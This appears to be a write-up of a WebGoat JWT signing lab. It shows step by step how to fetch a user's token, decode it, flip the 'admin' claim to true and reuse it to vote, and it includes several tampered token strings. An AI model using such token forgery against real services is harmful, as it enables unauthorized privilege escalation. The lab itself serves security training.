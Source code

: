 # JWT Tokens

## 4 - JWT Signing

Steps:
1. Change the user from Guest to Tom
2. Get the access of Tom from 
Request:
```GET /WebGoat/JWT/votings/login?user=Tom```
Response
```eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDI2OTEwNzIsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiVG9tIn0.sZcWHBuLeFJjTbKx8WckbC7XaYTg7jQ2p2RBnuFkrBYyypU9-yS5H49Bpt05qQTKaVyZ_VCmyWRBEU-Ywonl-w```
3. Decode the JWT token
JWT Header: {"alg":"HS512"} 
JWT Payload: {"iat":1602691072,"admin":"false","user":"Tom"}

4. Change its value and encode the JWT token
New JWT Payload: {"iat":1602691072,"admin":"true","user":"Tom"}
New JWT token:
```eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDI2OTEwNzIsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJUb20ifQ.sZcWHBuLeFJjTbKx8WckbC7XaYTg7jQ2p2RBnuFkrBYyypU9-yS5H49Bpt05qQTKaVyZ_VCmyWRBEU-Ywonl-w```


5. Vote using the new JWT token









eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDI2OTIxMDgsImFkbWluIjoiZmFsc2UiLCJ1c2VyIjoiSmVycnkifQ.dDr0hwf00nFdaTPnXLV5H3SaJwAM-P5xZX_ULqtaF3ho7XdJ1LOvFRlM_UTv7UxIvGvccRsh75IxwzQ_dHP3vg
eyJhbGciOiJIUzUxMiJ9.eyJpYXQiOjE2MDI2OTIxMDgsImFkbWluIjoidHJ1ZSIsInVzZXIiOiJKZXJyeSJ9.dDr0hwf00nFdaTPnXLV5H3SaJwAM-P5xZX_ULqtaF3ho7XdJ1LOvFRlM_UTv7UxIvGvccRsh75IxwzQ_dHP3vg
